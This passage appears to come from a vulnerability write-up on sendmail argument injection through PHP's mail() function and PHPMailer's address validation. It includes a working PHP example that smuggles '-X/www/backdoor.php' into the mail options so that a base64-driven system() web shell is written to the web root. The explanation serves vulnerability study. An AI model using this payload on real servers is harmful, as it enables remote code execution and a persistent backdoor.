 And for `-O` option, the `QueueDirectory` is the most interesting option there, this option select the directory in which to queue messages.

If you want to read the whole list of parameters and options, just `man sendmail` or read it online [here](https://linux.die.net/man/8/sendmail.sendmail)

Based on this information, and the ability to control at least one of the other parameters, we can exploit the host. Bellow the steps for a successful exploitation:

 * Control `$additional_parameters` and another `mail()` parameter
 * Know a **writeable** directory on target host which is accessible via the target system and user (www-data for example). Usually this directory can be anything bellow `webroot` (aka /var/www/html for another systems, /www for this example)
 * Any PHP payload that you want, we are using a simple `system()` payload in this example, with a spice of base64 and some special characters `|` to make it easier to parse. 
 * Just assembly everything together!

Remember that the `-X` option will write the log file, that will contain among the log information your PHP payload, in the directory that you will inform. An example of a vulnerable PHP code:

```php
$to = 'hacker@server.com';
$subject = '<?php echo "|".base64_encode(system(base64_decode($_GET["cmd"])))."|"; ?>';
$message = 'Pwned';
$headers = '';
$options = '-OQueueDirectory=/tmp -X/www/backdoor.php';
mail($to, $subject, $message, $headers, $options);
```

If you execute the code above, it will create a log file in the `/www/backdoor.php`, this is the essence of this exploit.

--- END NOTE

Ok, that's awesome, now we know we can exploit the injection point to reach remote code execution. But that is so simple? 
Let's do one step back and take a look at what kind of validation is performed in `preSend` function:

```php
1. <?php
2. public function preSend()
3. {
4.
5.        ...SNIPPED...
6.
7.        // Validate From, Sender, and ConfirmReadingTo addresses
8.        foreach (array('From', 'Sender', 'ConfirmReadingTo') as $address_kind) {
9.             $this->$address_kind = trim($this->$address_kind);
10.            if (empty($this->$address_kind)) {
11.                continue;
12.            }
13.            $this->$address_kind = $this->punyencodeAddress($this->$address_kind);
14.            if (!$this->validateAddress($this->$address_kind)) {</strong>
15.                $error_message = $this->lang('invalid_address') . ' (punyEncode) ' . $this->$address_kind;
16.                $this->setError($error_message);
17.                $this->edebug($error_message);
18.                if ($this->exceptions) {
19.                    throw new phpmailerException($error_message);
20.                }
21.                return false;
22.            }
23.        }
24.
25.        ...SNIPPED...
26.
27.    }
```